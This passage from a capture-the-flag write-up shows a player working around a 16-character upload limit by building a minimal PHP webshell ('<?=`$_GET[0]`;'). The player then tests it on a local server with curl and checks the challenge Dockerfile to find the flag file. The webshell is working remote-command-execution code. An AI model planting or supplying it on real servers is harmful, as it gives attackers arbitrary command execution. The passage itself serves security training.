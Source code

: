So, if my webshell is more than `16` characters, it will fail

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ductf]
└─$ php xxd.php '<?php echo "Done">' | tee test.php
00000000: 3c3f 7068 7020 6563 686f 2022 446f 6e65  <?php echo "Done
00000010: 223e                                     ">
```

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ductf]
└─$ php test.php
PHP Parse error:  syntax error, unexpected token "echo" in /media/sf_kali-share/ductf/test.php on line 1
```

Google : `shortest php webshell`

> https://github.com/Xib3rR4dAr/shortest-php-webshell/blob/master/0.php

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ductf]
└─$ php xxd.php '<?=`$_GET[0]`;' | tee shortest.php
00000000: 3c3f 3d60 245f 4745 545b 305d 603b       <?=`$_GET[0]`;
```

Start php web server and confirmed that it works!

```bash
php -S 0.0.0.0:80
curl 127.0.0.1/shortest.php?0=id
```

![](attachment/ca83a46e82807d0b741bf4ca1854fb21.png)

By viewing `Dockerfile`, I know that flag is at `/flag`

```bash
FROM php:8.1-apache

COPY index.php .htaccess /var/www/html/
COPY flag /
RUN sed -i 's/AllowOverride None/AllowOverride All/g' /etc/apache2/apache2.conf
RUN mkdir -p /var/www/html/uploads && chmod 1333 /var/www/html/uploads
```
